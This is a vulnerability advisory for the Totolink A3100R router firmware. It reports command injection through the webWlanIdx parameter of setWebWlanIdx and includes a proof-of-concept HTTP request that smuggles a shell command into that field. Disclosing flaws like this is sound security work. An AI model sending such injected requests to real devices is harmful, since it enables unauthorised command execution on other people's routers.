

## Totolink A3100R command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink A3100R
* Version: V4.1.2cu.5247_B20211129

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20220412/af5667441aa454891372a0823608aad1.rar

### Vulnerability details

Totolink A3100R V4.1.2cu.5247_B20211129 was found to contain a command injection vulnerability in the `setWebWlanIdx` function via the `webWlanIdx` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.



#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setWebWlanIdx",
    "webWlanIdx": "1;pwd;"
}
```

